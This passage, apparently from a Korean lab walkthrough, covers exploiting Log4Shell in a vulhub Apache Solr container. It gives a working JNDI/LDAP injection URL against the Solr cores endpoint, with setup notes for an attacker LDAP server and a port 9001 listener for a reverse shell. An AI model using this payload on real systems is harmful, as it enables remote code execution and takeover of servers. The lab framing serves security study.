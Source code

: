 ## 익스플로잇 - ver. vulhub original, using LDAP Server

![](picture/7.png)

아래 URL로 접속합니다.
`http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.0.2.15:1389/a}`

단, 이 조건이 필요합니다.
- victim-server가 `10.0.2.15:1389/a`에 접속할 수 있어야 합니다.
- attacker-LDAP-server가 위에 적은 대로 잘 설정되고 docker container로 올라가 실행 상태여야 합니다.
- 추가로, 리버스 셸 취득을 위해 별도의 컴퓨터에서 `poc.py`에서 `lport`로 지정한 9001 포트를 리스닝해야 합니다. (자세한 내용은 공격자 서버 구축 - listening server 에서 이미 다뤘습니다.)

접속하게 되면, 아래와 같이 attacker-LDAP-server는 victim-server에게 페이로드가 있는 java class file의 URL을 전달합니다.
그리고 victim-server는 접속하여 lookup합니다.
![](picture/8.png)
